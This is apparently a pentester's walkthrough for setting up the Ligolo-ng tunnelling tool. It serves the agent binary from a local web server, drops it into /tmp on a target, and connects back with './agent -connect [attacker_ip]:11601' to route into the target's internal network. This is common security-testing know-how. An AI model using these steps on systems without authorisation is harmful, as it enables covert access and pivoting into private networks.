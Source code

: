 ## Introduction

**Ligolo-ng** is a _simple_, _lightweight_ and _fast_ tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a **tun interface** (without the need of SOCKS).

## Features

- **Tun interface** (No more SOCKS/Proxychains!)
- Simple UI with _agent_ selection and _network information_
- Easy to use and setup
- Automatic certificate configuration with Let's Encrypt
- Performant (Multiplexing)
- Does not require privileges on the _agent_
- Socket listening/binding on the _agent_
- Multiple platforms supported for the _agent_
- Can handle multiple tunnels
- Reverse/Bind Connection
- Automatic tunnel/listeners recovery (in case of network issues)
- Websocket support

Website: [Ligolo-ng][https://github.com/nicocha30/ligolo-ng]


1 - go to releases
2 - create a new directory in you machine
3 - we will need an agent and also a proxy from the ligolo releases page. (download to the created folder)
4 - unzip the files

```
tar -xf 'file'
```

5 - we can then remove the zip files
6 - follow ligolo [setup][https://docs.ligolo.ng/Quickstart/]
7 - Start the Ligolo-ng proxy server 

```
./proxy -selfcert # Use self-signed certificates
```

8 - create anoter terminal tab and in the created folder start a webserver

```
python3 -m http.server 80
```

9 - go to the /tmp folder in the target machine and download the agent from the created folder
10 - we need to make the agent executable

```
chmod +x agent
```

11 - We now follow the steps from ligolo to **Start the agent**

```
./agent -connect [attacker_ip]:11601 -ignore-cert
```

12 - if we return to the ligolo tab we now see that we have an entry
13 - we now do session

```
session
```

14 - enter the entry, in this case 1
15 - we can now do `ifconfig` to see the network connections we have access to.
16 - we can now check the webserver we want to access from our iac network and we will add a route following the ligolo **Setup routing** instructions

```
sudo ip route add xxx.xxx.xxx.0/24 dev ligolo
```

17 - with this we can start a tunnel on the proxy (in the ligolo tab)

```
start
```